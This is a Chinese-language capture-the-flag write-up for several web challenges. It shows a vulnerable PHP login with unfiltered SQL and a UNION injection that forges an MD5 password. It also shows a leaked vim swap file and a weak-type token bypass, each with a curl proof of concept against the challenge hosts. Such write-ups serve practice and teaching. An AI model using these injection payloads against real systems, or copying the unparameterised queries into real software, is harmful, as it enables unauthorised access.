 
### 16.SQL注入2
关键代码：
```
$user = $_POST[user];
$pass = md5($_POST[pass]);
$query = @mysql_fetch_array(mysql_query("select pw from ctf where user='$user'"));
if (($query[pw]) && (!strcasecmp($pass, $query[pw]))) {
    echo "<p>Logged in! Key: ntcf{**************} </p>";
}
```
提示union查询，而且发现没有任何过滤
所以可以直接用
select pw from ctf where user='0' union select 'e10adc3949ba59abbe56e057f20f883e' as pw#
其中e10adc3949ba59abbe56e057f20f883e为123456的md5值
poc:
curl -X POST -d "user=0' union select 'e10adc3949ba59abbe56e057f20f883e' as pw#&pass=123456" "http://4.chinalover.sinaapp.com/web6/index.php"


### 17.密码重置2
题目提示了管理员邮箱：
admin@nuptzj.cn首页可找到（管理员邮箱和用户名经常是切入点）
根据提示vi退出交换文件：
curl http://nctf.nuptzj.cn/web14/.submit.php.swp
关键代码
```
如果登录邮箱地址不是管理员则 die()
if(!empty($token)&&!empty($emailAddress)){
        if(strlen($token)!=10) die('fail');
        if($token!='0') die('fail');
        $sql = "SELECT count(*) as num from `user` where token='$token' AND email='$emailAddress'";
        ...
}
```
token长度必须为10且弱类型等于0

SELECT count(*) as num from `user` where token='' or 123 #'AND email='admin@nuptzj.cn'  #fail

SELECT count(*) as num from `user` where token='a123456789'AND email='admin@nuptzj.cn'  #fail

SELECT count(*) as num from `user` where token='0000000000'AND email='admin@nuptzj.cn' #flag出现

后来想着'0'是字符串，a123456789也是字符串所以肯定不相等，而0000000000是数字转换为字符串后为0，如若是1234567890转换为字符串后为1234567890非1

至于为什么不能绕过查询语句尚且不知，估计题目做了一些过滤，毕竟只有部分源码

所以poc：
curl "http://nctf.nuptzj.cn/web14/submit.php?emailAddress=admin@nuptzj.cn&token=0000000000"

### 18.综合体
打开奇怪编码，做过的就知道是js fuck编码
直接js控制台运行出现：
1bc29b36f623ba82aaf6724fd3b16718.php
访问后发现上当了